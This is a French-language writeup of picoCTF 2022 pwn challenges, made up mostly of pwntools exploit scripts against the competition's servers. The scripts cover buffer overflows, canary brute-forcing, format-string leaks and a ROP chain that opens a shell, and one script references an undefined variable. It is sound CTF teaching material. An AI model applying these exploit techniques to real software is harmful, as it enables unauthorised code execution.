


# picoCTF2022 Writeup

# picoCTF 2022
Cet article présente des corrigés des défis du picoCTF 2022.
<!--more-->

## basic-file-exploit [Pwn]

Le menu du programme : créer ou lire des entrées dans la base de données.

```sh
$ nc saturn.picoctf.net 49700
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Dans le code source, avec le numéro d'entrée 0 on pourra afficher le flag.

```C
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
  puts(flag);
  fseek(stdin, 0, SEEK_END);
  exit(0);
}
```

Result:


## buffer overflow 0 [Pwn]


## buffer overflow 1 [Pwn]

```
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped
```

Le binaire est de 32 bits.

```C
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

La taille des données entrées via *gets(buf)* n'est pas contrôlée, on peut donc entrer n'importe quoi.

Ce qui peut causer un buffer overflow.

Il suffit de contrôler l'addresse de retour pour rediriger le flux d'exécution vers la fonction *win()* afin d'afficher le flag.


Dans gdb, j'ai placé un breakpoint sur le *ret* de *vuln()*



Pour un test, j'envoie ce payload: "A"*(32+4+4+4) + "BBBB"


Le EIP est bien atteint.

Il reste à rediriger le flux d'exécution vers la fonction *win()* à l'adresse *0x080491f6*.

```python
from pwn import *

#sh = process("./vuln")
sh = remote("saturn.picoctf.net",54376)
print(sh.recv().decode())
sh.sendline(b"A"*(32+4+4+4)+p32(0x080491f6))
sh.interactive()
```

Result:


## RPS [Pwn]

```C
if (wins >= 5) {
  puts("Congrats, here's the flag!");
  puts(flag);
}
```
Si on gagne 5 fois, on a le flag.

```C
char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
....
int computer_turn = rand() % 3;
printf("You played: %s\n", player_turn);
printf("The computer played: %s\n", hands[computer_turn]);

if (strstr(player_turn, loses[computer_turn])) {
  puts("You win! Play again?");
  return true;
} else {
  puts("Seems like you didn't win this time. Play again?");
  return false;
}
```
Pour gagner, il faut que le choix de l'ordinateur existe dans le choix de joueur.

J'ai donc utilisé *paperscissorsrock* pour gagner les 5 fois.


## x-sixty-what [Pwn]

Overflow x64 code

```python
from pwn import *
sh = process("./vuln")
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x00401236)) # flag() adresse: 0x00401236  
sh.interactive()
```

çà a marché en local mais pas sur le server distant.

Il s'agit d'un souci de Movaps stack alignment.


##### Movaps stack alignment

Si vous faites une erreur de segmentation sur une instruction movaps dans buffered_vfprintf() ou do_system() dans les défis x86_64, assurez-vous que la pile est alignée sur 16 octets avant de revenir aux fonctions GLIBC telles que printf() ou system().[En savoir plus...](https://ropemporium.com/guide.html)

La solution consiste à appeler le ret d'une autre adresse une fois de plus avant d'appeler la fonction flag() lors de la conception de la pile de débordement, afin que l'adresse rsp puisse être réduite de 8.

J'ai utilisé l'adresse de retour de init.

Pour le trouver: objdump vuln -M intel --disassemble=_init


```python
from pwn import *
sh = remote("saturn.picoctf.net",58049)
print(sh.recv().decode())
sh.sendline(b"A"*(64+8) + p64(0x0040101a) + p64(0x00401236))
sh.interactive()
```


## buffer overflow 2 [Pwn]

Contrôle de l'adresse de retour et des arguments

Appel fonction 32 bits: fun_addr + 4 octets + arg0 + arg1 + arg2 + .... + argn

```python
from pwn import *


sh = remote("saturn.picoctf.net",60889)
print(sh.recv().decode())
sh.sendline(b"A"*(100+4+4+4) + p32(0x08049296) + b"P"*4 + p32(0xCAFEF00D) + p32(0xF00DF00D))
sh.interactive()
```




## buffer overflow 3 [Pwn]

Brute force canary:

```python
from pwn import *


canary = b''

while len(canary) < 4:
	for i in range(256):
		sh = remote("saturn.picoctf.net",54629)
		sh.sendlineafter('> ', '{}'.format(64 + len(canary) + 1))

		a = '{}'.format(chr(i))
		sh.sendlineafter('> ', b'A' * 64 + canary + a.encode())

		log.info('Partial canary: {}'.format(canary))

		if b'*** Stack Smashing Detected' not in sh.recvline():
			canary += chr(i).encode()
			log.info('Partial canary: {}'.format(canary))
			break

		sh.close()

log.info('Found canary: {}'.format(canary))
```


Exploit:

```python
from pwn import *

canary = b"BiRd"

while True:
    p = remote("saturn.picoctf.net",60398)
    p.sendlineafter("Buffer?\n> ", str(0x100)) # Size of payload
    payload = b"A"*64 + canary + b"A"*16 + p32(0x08049336)
    p.sendlineafter("Input> ", payload)
    out = p.recvall()
    if b"pico" in out:
        print(out.decode())
        break
    p.close()
```


## flag leak [Pwn]

Format Strings


```python
from pwn import *

for i in range(100):
	sh = remote("saturn.picoctf.net",50120)
	print(sh.recv().decode())
	payload = '%{}$s'.format(i)
	sh.sendline(payload.encode())
	data = sh.recvall()
	print(data)
	sh.close()
```


Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}


## ropfu [Pwn]

What's ROP?

Static ROP

J'ai créé mon shellcode à partir des gadgets ROP.

```
ROPgadget --binary ./vuln --rop --badbytes "0a"
```

Exploit :

```python
from pwn import *
import sys
import subprocess

sh = remote("saturn.picoctf.net",55455)


# ROPgadget --binary ./vuln --rop --badbytes "0a"
from struct import pack

p = b'a'*(16+4+4+4)
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80

print(sh.recv().decode())

sh.sendline(p)

sh.interactive()
```


## wine [Pwn]

J'ai resolu directement ce challenge sans travailler sur le binaire(gdb, etc..)

```python
from pwn import *

sh = remote("saturn.picoctf.net",56673)
print(sh.recv().decode())
payload = b"A"*(128+4+4+4) + p32(0x00401530)
sh.sendline(payload)
sh.interactive()
```


## function overwrite [Pwn]




Quand j'ai lu le code, j'ai compris que *check* pointe sur *hard_checker*.

Pour l'exploiter, il faudrait pointer *check* sur *easy_checker*.

Ensuite, il faut remplir *story* avec des valeurs dont la somme est égale à *1337*



*story* pourrait être *abcdefghijklk*, la somme est effectivement égale à *1337*.

Pour pointer *check* sur *easy_checker*, j'ai pensé à  [Write-what-where Condition](https://www.martellosecurity.com/kb/mitre/cwe/123/)

*vuln()* fonction

```C
......
if (num1 < 10)
{
  fun[num1] += num2;
}
.....
```

On va se servir du tableau d'entier *fun* pour accéder à *check* afin de le pointer sur *easy_checker*.

On va utiliser l'indice num1 du tableau *fun* pour accéder à *check* et num2 pour modifier sa valeur.

Premièrement, on détermine l'offset entre *fun* et *check* pour le *num1*.


```
0x0804c040  check
0x0804c080  fun
```

```python
0x0804c080 - 0x0804c040 = 64
fun - check = 64
fun - 64 = check
```

Pour accéder à *check* il faut soustraire 64 de l'adresse de *fun*.

Comme num1 est de type int, **num1 = -64/sizeof(int)**


Deuxiement, on pointe *check* sur *easy_checker*.

*check* pointe sur *hard_checker*

Pour le pointer sur *easy_checker*, il faut d'abord déterminer l'offset entre *hard_checker* et *easy_checker*.

```python
0x8049436 - 0x80492fc = 314
hard_checker - easy_checker = 314
hard_checker - 314 = easy_checker
```
Donc, pour pointer *check* sur *easy_checker* il faut soustraire 314 de l'adresse de *hard_checker*.
Comme *check* contient l'adresse de *hard_checker*, on dimunie sa valeur de 314.

**num2 = -314**


Exploit:

```python
from pwn import *

sh = remote("saturn.picoctf.net",53163)
print(sh.recv().decode())
sh.sendline(b"abcdefghijklk")
print(sh.recv().decode())
sh.sendline(b"-16 -314")
print(sh.recv().decode())
```

Result:


## stack cache [Pwn]

```c
#define BUFSIZE 16
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}
```
La fonction **win()** ne permet pas d'afficher le flag mais de lire çà dans le tableau buf.

Il nous faut chercher une manière de divulguer le flag contenu dans tableau buf.

```c
#define BUFSIZE 16
void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}
```
La fonction **UnderConstruction()** fera l'affaire.

Il suffit maintenant de rédirigé le flux d'exécution vers la fonction **win()** ensuite vers la fontion **UnderConstruction()**.

```python
from pwn import *

sh = remote('saturn.picoctf.net', 56141)

eip = p32(0x08049da0) # win()
esp = p32(0x08049e20) # UnderConstruction()

print(sh.recvuntil(b"Give me a string that gets you the flag").decode())
sh.sendline(b"A"*(10 +4) + rip + esp)
sh.interactive()
```


J'ai écrit un script python pour çà.

```python
from binascii import unhexlify

cache = ['080c9a04', '0804007d', '61333337', '31646239', '5f597230', '6d334d5f', '50755f4e', '34656c43', '7b465443', '6f636970']
flag = ""
for pin in cache:
	try:
		flag += unhexlify(pin).decode()
	except:pass

print(flag[::-1])
```

